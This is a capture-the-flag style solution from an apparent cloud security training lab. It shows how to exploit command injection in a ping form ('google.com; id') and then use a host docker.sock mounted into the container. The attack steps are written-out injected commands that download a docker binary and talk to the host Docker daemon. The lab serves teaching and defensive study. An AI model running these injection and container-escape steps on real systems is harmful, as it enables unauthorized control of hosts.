








# Docker escape using Pod Volume Mounts to access the node and host systems - Solution

* Navigate to the application `http://connectivity-check.student-uniquename.cloudsec.training`

* Login to the application using `username: sysadmin` and `password: superpowers`



* Now try pinging `google.com`



* We can see that application is running the `ping` system command by looking at the output. Let's run some other system command by using a semicolon to separate two commands, as we know it's running in Linux system. For example, providing an input of `google.com; id` would trigger `ping -c 2 google.com;id` in the backend.



* Now that we have confirmed that the application is vulnerable to a command injection vulnerability. we can execute other commands and do other interesting stuff within this container.

* Let's explore the file system and other services. Start by looking inside the custom docker container.

```bash
;ls -l /custom/docker/
```



* Looks like the `docker.sock` is mounted from the host system as a volume mount

* Download the docker binary to access this socket and perform docker operations within the container

```bash
;wget https://download.docker.com/linux/static/stable/x86_64/docker-18.09.1.tgz -O /root/docker-18.09.1.tgz
```



* Now let's extract the binary to root system

```bash
;tar -xvzf /root/docker-18.09.1.tgz -C /root/
```



* Now, we can gain access to the host system by running the following docker commands

```bash
;/root/docker/docker -H unix:///custom/docker/docker.sock ps

;/root/docker/docker -H unix:///custom/docker/docker.sock images
```



